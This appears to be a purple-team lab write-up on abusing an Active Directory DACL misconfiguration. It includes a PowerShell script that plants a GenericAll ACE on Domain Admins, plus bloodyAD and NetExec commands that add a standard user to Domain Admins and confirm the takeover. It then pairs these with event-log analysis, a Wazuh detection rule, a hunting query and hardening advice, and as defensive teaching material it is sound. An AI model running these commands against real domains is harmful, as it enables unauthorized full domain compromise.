

# Pillar 4: Active Directory ACL Misconfiguration Abuse & Privilege Escalation

An end-to-end Purple Team investigation into Discretionary Access Control List (DACL) misconfigurations in Active Directory, abusing over-permissioned Access Control Entries (ACEs) using `bloodyAD` to escalate a standard user to Domain Admin, analyzing Windows Security Event ID 4728, and deploying custom Wazuh detection rules to alert on privileged group modifications.

---

## 1. Technique & MITRE ATT&CK Overview

* **Primary Tactics**: Privilege Escalation (`TA0004`), Persistence (`TA0003`)
* **Technique IDs**: **T1098** (Account Manipulation), **T1078.002** (Domain Accounts)
* **Adversary Objective**: Exploit a misconfigured Discretionary Access Control List (DACL) granting `GenericAll` over the `Domain Admins` group, using `bloodyAD` via LDAP to add an unprivileged user directly to Domain Admins and validate full domain compromise.

---

## 2. Red Team Attack Procedures

### Lab Seeding: Simulating Enterprise Delegation Technical Debt
In real-world Active Directory deployments, tier-1 service desks or automation accounts are frequently delegated permissions over organizational units or groups. Due to misconfigured inheritance or administrative errors, accounts may inadvertently receive direct or inherited `GenericAll`, `WriteDacl`, or `WriteProperty (member)` rights over privileged security groups.

To simulate this vulnerability, a `GenericAll` ACE was added to the `Domain Admins` group DACL on `winServer1`:

```powershell
# Executed on winServer1 (Domain Controller):
Import-Module ActiveDirectory
$targetGroup = Get-ADGroup "Domain Admins"
$user = Get-ADUser "asmith"

$acl = Get-Acl "AD:$($targetGroup.DistinguishedName)"
$identity = [System.Security.Principal.NTAccount]$user.SamAccountName
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    $identity,
    [System.DirectoryServices.ActiveDirectoryRights]::GenericAll,
    [System.Security.AccessControl.AccessControlType]::Allow
)
$acl.AddAccessRule($rule)
Set-Acl -Path "AD:$($targetGroup.DistinguishedName)" -AclObject $acl
```

---

### Negative Control: Baseline Security Check
Prior to exploiting the misconfiguration, `asmith` attempted to add herself to `Domain Admins`. Active Directory successfully blocked the unauthorized operation:

```text
badldap.commons.exceptions.LDAPModifyException: insufficientAccessRights for CN=Domain Admins,CN=Users,DC=wazuh,DC=homelab,DC=local
Reason: (ERROR_DS_INSUFF_ACCESS_RIGHTS) Insufficient access rights to perform the operation.
```

---

### Procedure 4.1: Exploiting the DACL via `bloodyAD` & Validating Compromise
With the `GenericAll` ACE active, the adversary weaponized the permission from Kali Linux using `bloodyAD` over LDAP, then verified administrative access via NetExec:

```bash
# 1. Add asmith to Domain Admins via LDAP:
bloodyAD -d wazuh.homelab.local -u asmith -p 'LabUser2026!#' -H 100.115.210.66 add groupMember "Domain Admins" asmith

# 2. Confirm newly acquired Domain Admin rights over SMB:
netexec smb 100.115.210.66 -u asmith -p 'LabUser2026!#'
```



*Result:* `asmith` is now a verified **Domain Administrator** (`Pwn3d!`), completing the privilege escalation lifecycle purely through legitimate LDAP protocol operations without dropping malware or exploiting software binaries.

---

## 3. Blue Team Forensic Telemetry

### Forensic Log Telemetry (Captured Live on `winServer1`)

#### 1. Security Group Membership Modification (Event ID 4728)
> **Key Detection Indicator:** `Subject.AccountName` (`asmith`) matches `Member.SecurityID` (`asmith`) when adding a member to a high-privilege group (`RID 512` - `Domain Admins`). A non-administrative account self-elevating into Domain Admins via LDAP is an indisputable indicator of DACL exploitation.

```yaml
EventID: 4728
Channel: Security
Task: Security Group Management
Message: "A member was added to a security-enabled global group."
Subject:
  SecurityID: S-1-5-21-3332230180-1108682337-2359799131-3602
  AccountName: asmith
  AccountDomain: WAZUH
  LogonID: 0x7D9B5AE # Network Logon Session
Member:
  SecurityID: S-1-5-21-3332230180-1108682337-2359799131-3602
  AccountName: CN=Alice Smith,OU=StandardUsers,OU=Users,OU=Lab,DC=wazuh,DC=homelab,DC=local
Group:
  SecurityID: S-1-5-21-3332230180-1108682337-2359799131-512
  GroupName: Domain Admins
  GroupDomain: WAZUH
```

#### Forensic Analysis:
* **The Smoking Gun**: `Subject.AccountName` (`asmith`) matches `Member.SecurityID` (`asmith`). A non-administrative account directly added herself to `Domain Admins`.
* **Logon Context**: `Subject.LogonID: 0x7D9B5AE` maps back to an inbound `Event 4624 (Logon Type 3 - Network)` originating from `100.121.144.96` (Kali Linux).
* **Target RID**: `S-1-5-21-...-512` explicitly denotes the built-in `Domain Admins` security group.

---

## 4. Detection Engineering (Wazuh SIEM)

### Custom Detection Rule (`local_rules.xml`)
To detect unauthorized additions to privileged Active Directory groups, custom **Rule `100106`** was engineered for `/var/ossec/etc/rules/local_rules.xml`:

```xml
<group name="active_directory,detection_engineering,">

  <!-- ============================================================ -->
  <!-- Rule 100106: Privileged Group Membership Modification (4728) -->
  <!-- MITRE ATT&CK: T1098 (Account Manipulation)                  -->
  <!-- ============================================================ -->
  <rule id="100106" level="12">
    <if_sid>60103</if_sid> <!-- Windows Security Audit Success Event -->
    <field name="win.system.eventID">^4728$</field>
    <field name="win.eventdata.targetUserName" type="pcre2">(?i)Domain\s+Admins|Enterprise\s+Admins|Administrators</field>
    <description>Active Directory: Member Added to Privileged Security Group ($(win.eventdata.targetUserName)) by $(win.eventdata.subjectUserName)</description>
    <mitre>
      <id>T1098</id>
    </mitre>
  </rule>

</group>
```

#### Detection Engineering Rationale:
* **Severity Level 12**: Unauthorized additions to privileged groups are high-impact Tier-0 events requiring immediate SOC paging and containment.
* **Regex Filtering**: Target groups include `Domain Admins`, `Enterprise Admins`, and `Administrators`.
* **Dynamic Variable Extraction**: Evaluates both the target privileged group (`$(win.eventdata.targetUserName)`) and the actor responsible (`$(win.eventdata.subjectUserName)`).

### Threat Hunting Lucene Query (Wazuh / OpenSearch Dashboard)
Hunt for group membership additions targeting sensitive domain administrative groups:
```text
data.win.system.eventID: "4728" AND data.win.eventdata.targetUserName: (*Domain*Admins* OR *Enterprise*Admins* OR *Administrators*)
```

---

## 5. Hardening & Prevention

### 1. Continuous BloodHound / AD DACL Auditing
Organizations must regularly audit Active Directory permissions using automated tools like **BloodHound** or **PingCastle** to identify and eliminate dangerous inbound edges (`GenericAll`, `WriteDacl`, `WriteOwner`, `GenericWrite`) directed at sensitive objects.

### 2. Protect Privileged Groups with AdminSDHolder & SDProp
Active Directory includes the **AdminSDHolder** object to enforce uniform security descriptors on protected groups (like `Domain Admins`). Ensure:
* SDProp is running at default 60-minute intervals.
* Custom, non-administrative ACEs are never added to `CN=AdminSDHolder,CN=System,DC=...`.
* Inheritance remains disabled on Tier-0 administrative accounts.

### 3. Implement the Active Directory Administrative Tiering Model
* **Tier 0 Separation**: Standard users (`asmith`) must never share permissions, administrative relationships, or direct delegation paths with Tier 0 assets (Domain Controllers, `Domain Admins`).
* **Privileged Access Management (PAM)**: Implement Just-in-Time (JIT) access and Privileged Identity Management (PIM) rather than static group memberships.

### 4. Enforce LDAP Signing and Channel Binding
Adversaries use tools like `bloodyAD` to modify Active Directory objects over unencrypted LDAP (`TCP 389`). Enforcing LDAP signing and channel binding neutralizes cleartext manipulation and Man-in-the-Middle (MitM) relay vectors:
* **Configure GPO on Domain Controllers**:
  * `Domain controller: LDAP server signing requirements` -> **Require signing**
  * `Domain controller: LDAP server channel binding token requirements` -> **Always**
* Restrict LDAP management traffic strictly to secure **LDAPS (`TCP 636`)** using valid internal PKI certificates.
